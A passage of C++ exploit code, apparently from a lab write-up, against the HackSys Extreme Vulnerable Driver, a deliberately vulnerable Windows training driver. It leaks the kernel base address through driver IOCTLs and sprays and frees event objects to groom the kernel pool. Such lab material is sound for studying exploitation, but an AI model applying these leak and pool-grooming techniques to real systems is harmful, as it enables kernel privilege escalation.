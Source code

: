 ```cpp
			DeviceIoControl(hFile, 0x222067, &HelperArray[i], sizeof(HelperArray[i]), &HelperArray[i], sizeof(HelperArray[i]), &bytes, nullptr);

			unsigned long long ntPointer = 0x9090909090909090;
			MyArwHelpObjIo.Name = &ntPointer;
			DeviceIoControl(hFile, 0x22206b, &MyArwHelpObjIo, sizeof(MyArwHelpObjIo), &MyArwHelpObjIo, sizeof(MyArwHelpObjIo), &bytes, nullptr);

			ntPointer -= 0x00b69010;

			printf("\n[Nt base] -> 0x%p\n", ntPointer);

			return true;
		}
	}

	return false;
}

int main() {


	BYTE pOutBuffer[1000] = { 0 };
	size_t sOutBuffer = sizeof(pOutBuffer);

	DWORD tag = 0;
	UINT64 addrKrnl = 0;
	ULONG lpBytesReturned = 0;

	bool kernel = false;

	HANDLE Events[5000] = { 0 };
	HANDLE hFile = CreateFileW(L"\\\\.\\HackSysExtremeVulnerableDriver", GENERIC_READ | GENERIC_WRITE, 0, nullptr,
		OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, nullptr);
	if (hFile == INVALID_HANDLE_VALUE) {
		printf("\n[!] Error getting the handle to HEVD -> %d\n", GetLastError());
		getchar();
		return -1;
	}

	for (unsigned int i = 0; i < 5000; i++) {

		Events[i] = CreateEventA(NULL, FALSE, FALSE, NULL); //  -> 0x80
		if (Events[i] == NULL) {
			printf("\n[%d] ERROR ON \"CreateEventA\" -> %d\n", i, GetLastError());
			for (unsigned int z = 0; z < 5000; z++) {
				if (Events[z] != NULL) {
					CloseHandle(Events[z]);
					Events[z] = NULL;
				}
			}
			return -1;
		}
	}

	for (unsigned int i = 0; i < 5000; i++) {

		if (i % 2 == 0) {
			CloseHandle(Events[i]);
			Events[i] == NULL;
		}
	}
```